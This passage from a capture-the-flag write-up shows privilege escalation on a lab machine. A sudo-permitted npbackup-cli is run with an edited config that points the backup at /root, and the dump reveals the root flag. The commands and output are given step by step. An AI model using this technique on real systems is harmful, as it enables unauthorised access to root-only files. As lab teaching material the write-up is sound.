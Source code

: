 The `--dump` option allowed us to export what the tool thought it was backing up:

`sudo /usr/local/bin/npbackup-cli -c npbackup.conf --dump /home/app/app`

Now we are going to craft our own config backup file. Lets copy the config file into a directory we can control.

`cp npbackup.conf /tmp/backup_new.conf`

```
marco@codetwo:~$ cd /tmp/
marco@codetwo:/tmp$ ls
backup_new.conf
systemd-private-b2fafc52f7b54c94872347f2e350664a-ModemManager.service-9d7Y2f
systemd-private-b2fafc52f7b54c94872347f2e350664a-systemd-logind.service-BLZrZi
systemd-private-b2fafc52f7b54c94872347f2e350664a-systemd-resolved.service-L43Ghh
systemd-private-b2fafc52f7b54c94872347f2e350664a-systemd-timesyncd.service-GxsFmj
```

Now lets modify the path:

`sudo nano backup_new.conf`

Modify this line:

```
backup_opts:
      paths:
      - /home/app/app/
```

Into this:

```
backup_opts:
      paths:
      - /root
```

By doing so we are making it point to the `/root` folder:

`sudo /usr/local/bin/npbackup-cli -c backup_new.conf -b -f`

If we try to dump it now we can see all the content of the `/root`:

`sudo /usr/local/bin/npbackup-cli -c backup_new.conf --dump /root`

In fact by reading the dump you can spot this:

```
root/root.txt0000640000000000000000000000004115055246672013566 0ustar00rootroot00000000000000762606448eb3468aedad308070481355
root/scripts/0000755000000000000000000000000015024520742013527 5ustar00rootroot00000000000000root/scripts/backup.tar.gz0000644000000000000000000052400014774376375016152 0ustar00rootroot00000000000000backups/0000700000000000000000000000000014774375025011210 5ustar  rootrootbackups/locks/0000700000000000000000000000000014774375025012323 5ustar  rootrootbackups/config0000400000000000000000000000023314774375025012376 0ustar  rootroot\xc3\xd4?\x85\xf8\xe7^.\xf9U
```

If we dump again but this time we are going to ask for the specific file we are goind to retrive the root flag:

`sudo /usr/local/bin/npbackup-cli -c backup_new.conf --dump /root/root.txt`

`762606448eb3468aedad308070481355`